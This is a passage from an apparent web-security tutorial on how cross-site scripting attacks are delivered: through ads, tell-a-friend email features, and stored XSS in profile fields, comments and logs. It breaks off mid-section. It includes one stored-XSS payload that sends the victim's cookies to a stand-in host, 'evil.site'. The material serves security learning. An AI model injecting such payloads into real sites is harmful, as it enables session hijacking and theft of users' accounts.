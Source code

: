 Here’s the clever part:
If the ad platform is using keywords, the malicious ad may show up *on the target site itself*.

So:

* Victim is already on `vuln.site`.
* Sees an ad.
* Clicks it — **XSS fires**.

And since the URL is now "on-site," browser protections like referrer or domain matching *won’t help*.

---

#### 📤 A7. **Using "Tell-a-Friend" or Feedback Functions**

Many sites allow users to send feedback or emails to others via the site’s backend.

If the attacker can:

* Inject XSS in the message,
* And the app sends it *through its own mail server*,

Then even savvy users might trust the email. It’s legit-looking and from a trusted sender.

---

## 🔹 3. Delivering **Stored XSS Attacks**

Unlike reflected/DOM XSS, **stored XSS does the delivery for you.**

But there are **two modes** of delivery:

---

### ✅ A. **In-Band Delivery** — through the main web interface

Attacker submits the payload via:

* Profile fields (name, bio, etc.)
* Uploaded file names
* Comments, feedback, or messages
* Anything saved in logs (User-Agent, Referer, URL)
* Uploaded files *viewed in-browser*

Then… waits. When someone views that data, **XSS triggers**.

Example:

```html
<script>new Image().src='https://evil.site/'+document.cookie</script>
```

Boom — session token exfiltration.

---

### ✅ B. **Out-of-Band Delivery** — through other channels (e.g., email)
